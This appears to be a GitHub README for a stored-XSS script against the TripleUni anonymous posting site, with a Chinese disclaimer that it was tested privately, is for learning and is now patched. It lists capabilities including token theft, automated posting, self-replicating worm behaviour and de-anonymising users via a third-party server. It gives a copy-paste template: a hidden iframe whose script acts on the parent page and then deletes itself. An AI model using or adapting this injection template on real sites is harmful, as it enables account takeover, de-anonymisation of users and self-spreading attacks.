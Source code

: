# TripleUni - Script

![图片](/next.svg)

## 声明
* 以下测试均在私密树洞进行，未进行大规模传播。
* 本测试旨在web安全学习，不会用于任何非法用途，也未对任何人或组织造成任何损失。
* 以下脚本在当前版本的TripleUni上**均已失效**，仅供学习参考。
* GitHub仓库在脚本失效前均处于私有状态(private)。

## 总结
* 通过iframe注入脚本，在其它用户打开树洞时，可以实现对TripleUni的任意操作，包括但不限于：
  * 获取用户信息
  * 获取树洞信息
  * 获取token
  * 关注树洞
  * 评论树洞
  * 发帖
  * 自我复制
  * 重定向
  * 等等
* 通过获取用户信息+跨域访问第三方服务器or实名发布树洞，可以实现**去匿名化**。
* 通过自我复制+发布树洞，甚至可以实现一个小型的**蠕虫**程序，对TripleUni进行攻击。
* **事实证明防止html注入真的很重要（doge）**

## What is it?
The script can `inject js code to tripleuni`. You can use it to edit the html of tripleuni, get the id of the post, auto follow the post, comment to the post, post, self-replication, redirect to another page and so on. `Basically, you can do anything you want`.

* TIPS: Only work for web version of tripleuni.

## How to use

### 1. Copy the code below

The code below is a template. You can copy it and paste it to tripleuni.

```html
<iframe
  id="iseeyou"
  srcdoc="
    <script type='text/javascript'>
        let pdoc = parent.document;

        // YOUR CODE HERE

        // remove self
        let self = parent.document.getElementById('iseeyou');
        self.parentNode.removeChild(self);
    </script>
    "
  width="0"
  height="0"
  frameborder="0"
  style="display: none"
>
</iframe>
```
